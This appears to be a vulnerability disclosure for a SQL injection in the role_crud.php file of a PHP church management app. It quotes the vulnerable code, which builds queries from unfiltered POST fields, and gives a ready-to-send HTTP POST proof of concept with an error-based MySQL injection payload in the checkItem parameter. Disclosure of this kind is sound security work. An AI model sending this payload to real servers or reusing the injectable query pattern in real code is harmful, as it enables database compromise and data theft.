 ### Vulnerability file address

`church/admin/app/role_crud.php` from line 40,The `$_POST["checkItem"];` parameter is controllable and the `$_POST['checkItem']` is not protected from sql injection, line 45 `$sql="insert into permission_role(permission_id,group_id)values('$checkItem[$i]','$id')";` ,line 46 `$execute = $conn->query($sql);` performs a SQL query, causing SQL injection

```php
if (isset($_POST['update'])) {
      
      
     extract($_POST);
     $stmt = $conn->prepare("delete  from permission_role where group_id='".$_POST['id']."'");
    $stmt->execute();
    $stmt = $conn->prepare("UPDATE groups set name='$name',description='$description' where id='".$_POST['id']."'");
    $stmt->execute();

$checkItem = $_POST["checkItem"];
//print_r($_POST);
 $a = count($checkItem);  
for($i=0;$i<$a;$i++){
 $id = $_POST['id'];
         $sql="insert into permission_role(permission_id,group_id)values('$checkItem[$i]','$id')";
          $execute = $conn->query($sql);
        
       }
    
        $_SESSION['update'] = "update";
        header("location:../manage_role.php");
    }
```

### POC

```http
POST /church/admin/app/role_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

update=1&checkItem[]='||(SELECT 0x694e7272 WHERE 9570=9570 AND GTID_SUBSET(CONCAT(0x7162717171,(SELECT (ELT(2639=2639,1))),0x7178767671),2639))||'&name=123&description=123&id=123
```

### Attack results pictures

![image-20250505210947409](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505052109446.png)